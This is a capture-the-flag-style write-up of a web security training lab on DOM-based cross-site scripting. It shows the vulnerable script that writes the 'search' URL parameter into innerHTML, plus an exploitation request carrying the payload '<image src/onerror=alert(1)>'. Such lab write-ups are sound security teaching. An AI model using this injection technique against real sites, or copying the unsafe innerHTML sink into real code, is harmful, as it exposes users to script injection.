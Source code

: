 ### Lab: DOM XSS in innerHTML sink using source location.search
#### **Recon**
-----
**Request:**
```http
GET /?search=find_me HTTP/2
Host: 064.web-security-academy.net

...Omitted of Brevety...
```
**Response:**
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3708

...Omitted of Brevety...
```
`Inspecting the web page content`
```js
...Omitted of Brevety...
<script>
	function doSearchQuery(query) {
		document.getElementById('searchMessage').innerHTML = query;
	}
	var query = (new URLSearchParams(window.location.search)).get('search');
	if(query) {
		doSearchQuery(query);
	}
</script>
...Omitted of Brevety...
```

**Affected Locations**
```
https://064.web-security-academy.net/?search=
```

```js
document.getElementById('searchMessage').innerHTML = query;
```

### Exploitation
-----
Exploitation
----
**Payload**
```js
<image src/onerror=alert(1)>
```
**Request:**
```http
GET /?search=<image src/onerror=alert(1)> HTTP/2
Host: 0abc00250483796884b51f5300300064.web-security-academy.net

...Omitted for Brevety...
```
**Response:**
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 6849

...Omitted for Brevety...
```


